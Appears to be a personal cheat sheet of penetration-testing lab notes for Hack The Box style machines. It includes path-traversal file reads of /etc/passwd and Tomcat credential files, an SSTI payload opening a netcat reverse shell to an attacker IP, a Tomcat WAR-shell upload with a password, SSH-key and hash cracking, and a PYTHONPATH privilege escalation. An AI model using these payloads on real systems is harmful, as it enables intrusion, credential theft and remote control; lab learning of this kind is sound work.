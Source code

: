 # Labs Learning

## Gobuster

Use `-k` flag to `disable certificate checks`

## Custom Wordlist Using cewl to create an wordlist by using words in an website

```
cewl -w output.txt http://10.10.10.191
```

## Zone Transfer

## LFI WEBB

```
http://megahosting.htb/news.php?file=../../../../etc/passwd
```

```
php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

## SSTI vulnerability

```
<img src=http://10.10.14.33/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.33'$IFS'1234')>
```

## Java Files

USE

jd-gui APP

## Using Curl to upload a file

```
curl -T shell.war -u 'tomcat':'$3cureP4s5w0rd123!' 'http://tabby.htb:8080/manager/text/deploy?path=/myapp'
```

## SSH key crack

## ssh to john

```
/usr/share/john/ssh2john.py id_rsa2 > hash.txt
```

```
john id_rsa --wordlist=/usr/share/wordlists/rockyou.txt

```

## hashcat

```
.\hashcat -m 500 -a 0 hash.txt rockyou.txt
```

## Accessing web app Files In Internal Network

```
curl 127.0.0.1:<port>/<file name>
```

## Python File Path Change

```
sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh 6
```

## gzip base64 transfer

We see its a gzip compressed file

```
base64 <filename.tar>
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

